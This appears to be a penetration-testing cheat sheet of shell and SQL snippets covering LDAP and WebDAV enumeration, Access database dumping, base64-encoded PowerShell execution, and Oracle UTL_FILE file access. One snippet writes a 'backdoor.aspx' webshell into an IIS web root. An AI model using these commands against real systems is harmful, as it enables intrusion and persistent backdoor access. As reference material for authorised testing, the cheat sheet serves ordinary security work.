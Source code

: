 ### LDAP Enumeration
```console
ldapsearch -x -h [target_ip]

ldapsearch -x -h [target_ip] -s base namingcontexts

ldapsearch -x -h [target_ip] -b 'DC=MEGABANK,DC=LOCAL' # example
```
### Webdav Enumeration
```console
davtest -url http://[target_ip]
```
### MDB Tools
```console
apt install mdb-tools

# show tables
mdb-tables [.mdb file]

for i in $(mdb-tables [.mdb file]); do mdb-export [.mdb file] $i; done
```
### Converting powershell command into base64 for execution
```console
echo -n [command] |iconv --to-code UTF-16LE |base64 -w 0

# how to run
powershell -EncodedCommand [base64_string]
powershell -enc [base_64]
```
### Read & Write Files in Oracle Database
```console
# read files
declare
  f utl_file.file_type;
  s varchar(200);
begin
  f := utl_file.fopen('/inetpub/wwwroot/', 'iisstart.htm', 'R');
  utl_file.get_line(f,s);
  utl_file.fclose(f);
  dbms_output.put_line(s);
end;

# to show output from script above:
set serveroutput ON


# write files
declare
  f utl_file.file_type;
  s varchar(1100) := 'string to write [preferably a webshell!!]';
begin
  f := utl_file.fopen('/inetpub/wwwroot', 'backdoor.aspx', 'W');
  utl_file.put_line(f,s);
  utl_file.fclose(f);
end;
```
### Connecting to Oracle Database with Sqlplus
```powershell
sqlplus user/password@target_ip/sid as sysdba

# if we can't access as admin
sqlplus user/password@target_ip/sid
```